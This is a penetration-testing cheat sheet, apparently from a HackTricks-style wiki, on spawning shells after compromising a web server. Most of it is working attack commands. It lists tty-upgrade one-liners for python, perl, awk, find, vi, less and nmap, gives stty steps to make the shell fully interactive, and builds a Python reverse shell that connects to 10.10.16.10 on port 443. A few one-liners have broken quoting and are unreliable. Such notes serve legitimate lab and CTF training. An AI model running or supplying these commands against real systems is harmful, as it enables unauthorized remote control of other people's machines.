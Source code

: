 # Spawning shells

## Non-interactive tty-shell

If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

**Using python**

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

**Echo**

```
echo 'os.system('/bin/bash')'
```

**sh**

```
/bin/sh -i
```

**bash**

```
/bin/bash -i
```

**Perl**

```
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

**Ruby**

```
ruby: exec "/bin/sh"
```

**Awk**

```
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

```
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**More, less, or man**

Type more, less, or man command with a file then try one of the following:

```
'! /bin/sh'
'!/bin/sh'
'!bash'
```

**Lua**

```
lua: os.execute('/bin/sh')
```

**From within IRB**

```
exec "/bin/sh"
```

**From within VI**

```
:!bash
```

or

```
:set shell=/bin/bash:shell
```

or execute

```
vi ;/bin/bash
```

once exit vi \(:q!\) we would get a shell. Helpful in scenarios where the user is asked to input which file to open

**From within nmap**

```
!sh
```

## Interactive tty-shell

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

[https://github.com/cornerpirate/socat-shell](https://github.com/cornerpirate/socat-shell)

**Using stty**

```
ctrl+z (background)
stty size
(this will output rows and cols)--for example 48 and 186
stty raw -echo
fg (resume background job)
stty rows 48 cols 186
```

## Simple Reverse Shell

```
echo "import socket" > script.py
echo "import subprocess" >> script.py
echo "import os" >> script.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> script.py
echo 's.connect(("10.10.16.10",443))' >> script.py
echo "os.dup2(s.fileno(),0)" >> script.py
echo "os.dup2(s.fileno(),1)" >> script.py
echo "os.dup2(s.fileno(),2)" >> script.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> script.py
```

## References:

[http://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password](http://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password)  
[http://netsec.ws/?p=337](http://netsec.ws/?p=337)  
[http://pentestmonkey.net/blog/post-exploitation-without-a-tty](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)

